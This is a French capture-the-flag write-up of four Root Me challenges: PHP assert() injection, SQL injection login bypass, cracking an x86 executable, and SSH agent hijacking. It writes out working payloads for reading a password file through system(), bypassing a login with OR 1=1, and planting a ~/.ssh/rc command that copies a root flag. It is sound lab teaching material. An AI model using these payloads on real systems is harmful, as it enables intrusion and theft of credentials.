 # DETECTION DE VULNÉRABILITÉS
##### Write UP - Root Me
##### tous les flags trouvés dans ces challenges seront tronqués
</br>

![alt text](esgi_logo.png "PHP - assert()")
</br>
</br>
</br>

### Chall 1 : [PHP - assert()](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-assert)
----
</br>

![alt text](imgchall1/php-assert.png "PHP - assert()")
</br>

En se déplaçant sur le site on peut remarquer que les pages sont introduites par
> ?page=

donc on teste des valeurs ramdom pour voir ce que cela nous retourne
> ?page='test'

ce qui va sans surprise nous retrouner une erreur:
> Parse error: syntax error, unexpected T_STRING in /challenge/web-serveur/ch47/index.php(8) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: strpos('includes/'test'.php', '..') === false in /challenge/web-serveur/ch47/index.php on line 8

A partir de là on sait qu'on peut faire exé-cuter du code grâce à __?page=''__ donc le but dans un premier temps va être d'essayer de faire ressortir la liste des fichiers du répertoire. Pour ce faire on peut essayer d'utiliser la commande __system()__
> ?page='.system("ls -la").'

ce qui nous retourne la liste de tous les fichiers du répertoire courant
```
total 32 
dr-xr-x--- 3 web-serveur-ch47 www-data 4096 Feb 27 2018 . 
drwxr-s--x 69 challenge www-data 4096 Feb 2 15:30 .. 
-r-------- 1 challenge challenge 90 Nov 20 2016 ._nginx.http-level.inc 
-r-------- 1 challenge challenge 727 Nov 20 2016 ._nginx.server-level.inc 
-r-------- 1 challenge challenge 218 Feb 27 2018 ._php53-fpm.pool.inc 
-r-------- 1 web-serveur-ch47 www-data 192 May 7 2017 .passwd 
drwxr-sr-x 2 web-serveur-ch47 www-data 4096 Feb 7 2018 includes 
-rw-r----- 1 web-serveur-ch47 www-data 811 Feb 19 2018 index.php 'includes/'.system("ls -la").'.php'File does not exist
```

On peut voir alors que le fichier qui nous interresse se trouve dans ce répertoire
> -r-------- 1 web-serveur-ch47 www-data 192 May 7 2017 .passwd 

On peut ainsi refaire la même manipulation en changeant un peu le contenu de __system()__
> ?page='.system("cat .passwd").'

ce qui nous permet d'avoir le retour suivant:
> The flag is / Le flag est : x4Ss[...]A1Lx Remember to sanitize all user input! / Pensez à valider toutes les entrées utilisateurs ! Don't use assert! / N'utilisez pas assert ! 'includes/'.system("cat .passwd").'.php'File does not exist

On a donc bien notre flag : __x4Ss[...]A1Lx__
</br>
</br>

### Chall 2 : [SQL injection - Authentification](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-authentification)
----
</br>

![alt text](imgchall2/sql-injection_auth.png "SQL injection - Authentification")
</br>

Le but de ce challenge comme son nom l'indique est d'exploiter une faille __SQL__ pour pouvoir s'authentifier en tant qu'admin sur le site.

Dans un premier temps nous nous retrouvons sur cette page
</br>

![alt text](imgchall2/sql-injection_auth_2.png "SQL injection - Authentification")
</br>

donc le but va être d'exécuter une requête __SQL__ dans un des champs afin de récupérer les logs admin.

Nous allons d'abord essayer de récupérer les logs de l'utilisateur n°1 en base de données. Pour cela on entre la requête suivante dans le champ __Login__ et on met un caractère (minimum) dans le champ __Password__ afin de ne pas le laisser vide.
> ' OR 1=1 /*

ce qui nous permet de nous logger sur l'utilisateur 1
</br>

![alt text](imgchall2/sql-injection_auth_3.png "SQL injection - Authentification")
</br>

A partir de ce moment nous pouvons supposer que l'administrateur a une entrée nommée __admin__ en base de données. Nous exécutons la requête suivante afin d'obtenir les logs d'un potentiel utilisateur __ADMIN__
> ' OR 1=1 AND \`username`='admin' /*

Cette requête s'avère être la bonne car nous avons pour retour à ce moment
</br>

![alt text](imgchall2/sql-injection_auth_4.png "SQL injection - Authentification")
</br>

Le mot de passe __admin__ est non lisible, il ne nous reste qu'à inspecter l'élément et changer le __type=__ du champ password ce qui nous revèle le mot de passe de l'admin.

Le flag est donc : __t0[...]k!$__
</br>
</br>

### Chall 3 : [PE x86 - 0 protection](https://www.root-me.org/fr/Challenges/Cracking/PE-x86-0-protection)
----
</br>

![alt text](imgchall3/chall3.png "PE x86 - 0 protection")
</br>

Dans un premier temps on télécharge le __.exe__ du challenge, ensuite nous l'ouvrons avec __Cutter__ afin d'avoir une vue désassemblée de cet exécutable.
</br>

![alt text](imgchall3/cutter_1.png "PE x86 - 0 protection")
</br>

Nous savons que le but de ce challenge est de retrouver le __Password__ donc nous allons commencer par chercher une fonction __Wrong.password__. Nous entrons notre recherche dans la barre de rechercher de __Cutter__ ce qui nous renvoie ici:
</br>

![alt text](imgchall3/cutter_2.png "PE x86 - 0 protection")
</br>

Ici on peut voir dans le __DATA XREF__ a quelle fonction correspond cette string et où elle se trouve
> ; DATA XREF from fcn.00401726 @ 0x04017aa

A partir de la nous nous deplacons vers la __fonction__ d'addresse 0x004017aa, ce qui nous ramène sur cette vue:
</br>

![alt text](imgchall3/cutter_3.png "PE x86 - 0 protection")
</br>

D'ici nous pouvons voir grâce à l'arborescence que plusieurs variables sont reliées à cette fonction, et que en bout de ligne ce trouve un commentaire en chiffre. Ces chiffres doivent être le mot de passe décomposé. Si nous executons le programme et entrons ses chiffres comme mot de passe nous avons une erreur
> Wrong Password

Si ces chiffres ne fonctionne pas essayons de les transcoder dans un autre type, par exemple en __ASCII__, si nous prennons la correspondance de chaque chiffre alors cela nous donne 
> 'S' 'P' [...] 'S'

et si nous entrons ces lettres (majuscule et miniscule respectées) alors a ce moment nous avons le message 
> Gratz Man :)

qui apparait, donc ce mot de passe est le bon

Flag : __SP[...]S__
</br>
</br>

### Chall 4 : [PE x86 - 0 protection](https://www.root-me.org/fr/Challenges/Cracking/PE-x86-0-protection)
----
</br>

![alt text](imgchall4/chall4.png "SSH - Agent Hijacking")
</br>

Pour ce challenge nous devons demarrer un machine virtuel détenue par root-me et nous connecter desssus avec les logs: __admin/admin__.
</br>

![alt text](imgchall4/chall4_1.png "SSH - Agent Hijacking")
</br>

Donc nous avons le VM ctf06, ce qui est important a retenir pour la suite.

Pour la suite nous devons ecrire un script qui nous permettra de d'exécuter du code quand notre collègue se connectera sur le server. Soit nous nous connecton sur le server et nous ecrivons notre script dans 
> ~/.ssh/rc

pour qu'il s'exécute a la connexion, soit nous ecrivons cette ligne dans notre terminal
> ssh -oStrictHostKeyChecking=no admin@ctf06.root-me.org "echo \"ssh -oStrictHostKeyChecking=no root@localhost 'cat /passwd /root/.flag > /tmp/flag && chmod 777 /tmp/flag'\" > .ssh/rc; while [[ ! -f /tmp/flag ]]; do sleep 1; done; cat /tmp/flag"

en oubliant pas de changer 
> admin@ctf06.root-me.org

en fonction de la machine que nous utilison. Ce qui nous donnera après 1 minute d'atttente ce résultat:
</br>

![alt text](imgchall4/chall4_2.png "SSH - Agent Hijacking")
</br>

Nous avons donc nos 2 flags.

Flag VM : __4179[...]c300d05__

Flag Chall : __B3[...]AGENT__